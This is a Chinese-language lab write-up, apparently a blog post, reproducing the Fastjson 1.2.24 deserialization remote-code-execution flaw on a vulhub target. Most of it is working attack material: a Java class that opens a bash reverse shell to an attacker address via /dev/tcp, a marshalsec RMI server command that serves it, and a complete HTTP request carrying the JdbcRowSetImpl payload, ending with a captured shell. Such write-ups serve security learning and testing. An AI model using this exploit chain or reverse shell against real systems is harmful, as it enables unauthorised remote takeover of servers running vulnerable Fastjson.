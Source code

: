 #  Fastjson 1.2.24 RCE复现   
原创 Pikaciu  Piusec   2024-09-15 16:38  
  
# 免责声明  
>   
> 本文仅用于技术讨论与学习，利用此文所提供的信息或工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，文章作者不为此承担任何责任!  
  
## 漏洞复现  
  
这个fastjson1.2.24 rce漏洞是通过 vulhub   
靶场搭建的，我通过vulhub以及网上各种文章的exp复现总是失败，找了很多文章后成功复现，希望这篇文章能给正在复现fastjson 1.2.24漏洞的师傅们有所帮助  
```
// javac TouchFile.java
import java.lang.Runtime;
import java.lang.Process;
 
public class TouchFile {
    static {
        try {
            Runtime rt = Runtime.getRuntime();
            String[] commands = {"/bin/bash","-c","bash -i >& /dev/tcp/192.168.239.128/2333 0>&1"};
            Process pc = rt.exec(commands);
            pc.waitFor();
        } catch (Exception e) {
            // do nothing
        }
    }
}

```  
  
准备已经被编译好的marshalsec-0.0.3-SNAPSHOT-all.jar github地址  
  
创建TouchFile.java文件把上面给的exp ip地址更改为你需要反弹的地址也就是你的攻击机，之后使用javac进行编译  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/cYTGgX1JI0WoRLVnxaTwSOK6uc3kUtpSIoD425OVjjiaSO6U7stWSpFjsrAkyWvM1j6oursMV7kSzTmCOiav3s6w/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/cYTGgX1JI0WoRLVnxaTwSOK6uc3kUtpSibAicu1qIXszovK9qKJzsQ6w2mk7qAbed84LP3dSBe2jvMhNqbbaIia8w/640?wx_fmt=png&from=appmsg "")  
  
编译后的文件为  
TouchFile.class，在这个文件的目录使用python开启http服务  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/cYTGgX1JI0WoRLVnxaTwSOK6uc3kUtpSOoOgbIe81Wfr0picEFRP0Vb2WXKOyAYHx2c48HxgKdbcsxrbibJWt34w/640?wx_fmt=png&from=appmsg "")  
  
使用java开启rmi服务，建议使用java8，kali多个java版本切换文章：  
  
Kali安装JAVA8和切换JDK版本的详细过程_kali安装jdk8-CSDN博客  
```
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer http://192.168.46.129:6867/#TouchFile 2786
```  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/cYTGgX1JI0WoRLVnxaTwSOK6uc3kUtpSa2YLFLy2bBOxzDiaOWedsBBDb4ScN3ECI6efaA7S1wUNJoz5ZNptLiaw/640?wx_fmt=png&from=appmsg "")  
  
使用burp抓包把请求格式更改为POST提交，把数据格式更改为application/json  
```
POST / HTTP/1.1
Host: 192.168.46.131:8090
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/json
Content-Length: 161

{
    "b":{
        "@type":"com.sun.rowset.JdbcRowSetImpl",
        "dataSourceName":"rmi://192.168.46.129:2786/TouchFile",
        "autoCommit":true
    }
}

```  
  
攻击上面开启监听  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/cYTGgX1JI0WoRLVnxaTwSOK6uc3kUtpSN07v9wtKV0TCXrQp4WbsZGwpNjPBhbGs0nwqGnnD6h6O9cKTicDSyyw/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/cYTGgX1JI0WoRLVnxaTwSOK6uc3kUtpSrCtoUtX2YD86icbibYHlVfhHDFEwZIZOFQsJEWoiaKLoZFdTAXNV5UjAA/640?wx_fmt=png&from=appmsg "")  
  
发包后成功的开到攻击机上监听到shell  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/cYTGgX1JI0WoRLVnxaTwSOK6uc3kUtpSWGJEqImk0teeYeuexbFFWhGYusiacfkWKCn5UKfvw5EibeedSvl0FKdw/640?wx_fmt=png&from=appmsg "")  
  
  
  
